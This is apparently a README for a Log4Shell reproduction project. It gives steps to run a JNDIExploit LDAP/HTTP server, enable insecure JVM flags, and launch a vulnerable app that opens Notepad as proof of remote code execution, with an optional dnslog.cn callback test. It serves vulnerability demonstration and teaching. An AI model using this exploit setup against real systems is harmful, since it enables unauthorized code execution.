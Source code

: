 # Log4jShell

Prequisites:

1. Java
2. Maven
3. IntelliJ/Eclipse

Steps to run application and reproduce the Log4jShell issue:

1. Clone the repo https://github.com/itsMakHere/Log4jShell.git
3. Run the ```JNDIExploit-1.2-SNAPSHOT.jar``` using the ```java -jar JNDIExploitServer/JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1``` to start the local ldap and http server
2. Import/open the project into IntelliJ/Eclipse
4. Set the VM arguments to following values: ```-Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Dlog4j2.debug=true```
5. Run the Application.java file.
6. **Notepad** application will get open which proves that attacker was able to execute arbitrary code on server

### OR

1. Clone the repo https://github.com/itsMakHere/Log4jShell.git
2. Run the ```JNDIExploit-1.2-SNAPSHOT.jar``` using the ```java -jar JNDIExploitServer/JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1``` to start the local ldap and http server
3. Run ```mvn clean install``` command
4. Run ```java -jar -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Dlog4j2.debug=true target/Log4jShell-1.0-SNAPSHOT-jar-with-dependencies.jar```
5. **Notepad** application will get open which proves that attacker was able to execute arbitrary code on server

**NOTE: You change the server address to point to you server address in ```Application.java``` file.**

### (Optional) Getting your own DNS

For some reason if you are not able to do the above setup then just to demonstrate that log4j library actually makes the call to url passed for logging
to resolve configuration you can follow the below steps:

1. Go to http://www.dnslog.cn/
2. Click on ```Get SubDomain``` button
3. Copy the domain name and paste it into ```Application.java``` by replacing ```127.0.0.1:1389``` with your domain name.
4. Run the application again.
5. You will see the that application tried to hit the pasted url in http://www.dnslog.cn/

For more info head onto this repo: https://github.com/christophetd/log4shell-vulnerable-app